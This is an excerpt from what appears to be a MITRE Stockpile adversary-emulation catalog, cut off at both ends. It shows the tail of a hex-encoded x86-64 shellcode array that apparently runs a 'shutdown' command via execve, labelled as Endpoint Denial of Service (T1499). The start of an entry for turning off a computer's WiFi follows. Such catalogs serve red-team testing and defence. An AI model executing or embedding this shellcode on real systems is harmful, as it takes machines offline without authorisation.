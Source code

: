 ```json
                                                                                                                                                                      '0x74, '
                                                                                                                                                                      '0x64, '
                                                                                                                                                                      '0x6f, '
                                                                                                                                                                      '0x77, '
                                                                                                                                                                      '0x6e, '
                                                                                                                                                                      '0x41, '
                                                                                                                                                                      '0x52, '
                                                                                                                                                                      '0x41, '
                                                                                                                                                                      '0x50, '
                                                                                                                                                                      '0x48, '
                                                                                                                                                                      '0x89, '
                                                                                                                                                                      '0xe7, '
                                                                                                                                                                      '0x52, '
                                                                                                                                                                      '0x53, '
                                                                                                                                                                      '0x51, '
                                                                                                                                                                      '0x57, '
                                                                                                                                                                      '0x48, '
                                                                                                                                                                      '0x89, '
                                                                                                                                                                      '0xe6, '
                                                                                                                                                                      '0x48, '
                                                                                                                                                                      '0x83, '
                                                                                                                                                                      '0xc0, '
                                                                                                                                                                      '0x3b, '
                                                                                                                                                                      '0x0f, '
                                                                                                                                                                      '0x05\n'}}},
                                                                                                 'tactic': 'impact',
                                                                                                 'technique': {'attack_id': 'T1499',
                                                                                                               'name': 'Endpoint '
                                                                                                                       'Denial '
                                                                                                                       'of '
                                                                                                                       'Service'}}},
 {'Mitre Stockpile - Turn a computers WIFI off': {'description': 'Turn a '
```